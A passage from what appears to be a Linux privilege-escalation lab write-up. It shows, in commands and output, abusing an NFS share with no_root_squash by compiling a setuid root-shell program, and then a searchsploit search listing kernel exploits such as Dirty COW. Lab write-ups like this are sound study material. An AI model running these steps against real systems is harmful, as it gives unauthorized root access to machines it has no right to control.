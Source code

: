 
`no_root_squash`  it's enable which will inherit the remote user ID .


```bash
┌──(root㉿debian)-[~]
└─# mkdir /tmp/nfs

┌──(root㉿debian)-[~]
└─# mount -o rw,vers=2  10.10.215.219:/tmp /tmp/nfs

┌──(root㉿debian)-[/tmp/nfs]
└─# cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}

┌──(root㉿debian)-[/tmp/nfs]
└─# gcc pwn.c -o pwn


┌──(root㉿debian)-[/tmp/nfs]
└─# chmod +xs pwn



#NFS server

user@debian:/tmp$ ./pwn    -p
bash-4.1# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1#


```


**`Kernel Exploits`**

[+] check kernel release date<br>

```bash
user@debian:/tmp$ uname -a
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux

```


`13 May 2014` it's kernel release date which it's vulnerable to kernel exploit 

[+] use searchsploit  to look for kernel exploit<br>

```bash

┌──(root㉿debian)-[/tmp/nfs]
└─# searchsploit  linux kernel 2.6.32-5
------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                              | solaris/local/15962.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation                                      | linux/local/50135.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation ( | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passw | linux/local/40847.cpp
```